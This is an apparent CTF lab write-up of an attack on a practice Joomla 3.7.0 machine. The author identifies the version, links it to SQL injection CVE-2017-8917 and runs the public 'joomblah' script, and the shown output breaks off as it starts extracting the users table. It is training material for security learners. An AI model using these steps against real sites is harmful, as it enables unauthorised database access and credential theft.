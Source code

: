 First hard machine

I know I may not be ready yet but I want to see how hard things can get irl
I will do this slowly and use other's walktrough writeups when needed
There is a login page in "administrator" directory
Its a joomla website but we need the version to search for vulnerabilities
googling "how to check joomla version" we get

`http://10.10.100.174/administrator/manifests/files/joomla.xml`

```bash
files_joomla Joomla! Project admin@joomla.org www.joomla.org (C) 2005 - 2017 Open Source Matters. All rights reserved GNU General Public License version 2 or later; see LICENSE.txt 3.7.0 April 2017 FILES_JOOMLA_XML_DESCRIPTION administrator/components/com_admin/script.php administrator/components/com_admin/sql/updates/mysql administrator/components/com_admin/sql/updates/sqlazure administrator/components/com_admin/sql/updates/sqlazure administrator/components/com_admin/sql/updates/postgresql administrator bin cache cli components images includes language layouts libraries media modules plugins templates tmp htaccess.txt web.config.txt LICENSE.txt README.txt index.php https://update.joomla.org/core/list.xml
```

Joomla 3.7.0

its seems to be vulnerable to sql injection `CVE-2017-8917`
the room suggests not using sqlmap but a python script
we google cve that-specific-cve script and TA-DAA we got a script (hard work lol)

For the sake of credits its: `joomblah` from stefanlucas (thanks)

this script works better with python2...I needed to install pip and requests to make it

```bash
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py
python2 get-pip.py
python2 -m pip install requests
```

There is a python 3 version committed by mats-codes (commit #18) but its not complete fix

According to reddit:

```text
Fix for the joomblah.py script Add .decode('utf-8') to the end of line 46 so it looks like this result += value.decode('utf-8')
```

Anyway I used the python 2 method and it works

```bash
└──╼ $python2 joomblah.py http://10.10.135.31/

.---. .-'''-. .-'''-.
| | ' _ \ ' _ \ .---.
'---' / /` '. \ / /` '. \ \_\_ ** \_** /| | | .
.---.. | \ ' . | \ ' | |/ `.' `. || | | .'|
| || ' | '| ' | '| .-. .-. '|| | | < |
| |\ \ / / \ \ / / | | | | | ||| ** | | ** | |
| | `. ` ..' / `. ` ..' / | | | | | |||/'** '. | | .:--.'. | | .'''-.
| | '-...-'` '-...-'` | | | | | ||:/` '. '| |/ | \ | | |/.'''. \ | | | | | | | ||| | || |`" ** | | | / | |
| | |**| |**| |**|||\ / '| | .'.''| | | | | |
**.' ' |/'..' / '---'/ / | |_| | | |
| ' ' `'-'` \ \._,\ '/| '. | '.
|\_\_\_\_.' `--' `" '---' '---'

[-] Fetching CSRF token
[-] Testing SQLi

- Found table: fb9j5_users
- Extracting users from fb9j5_users
```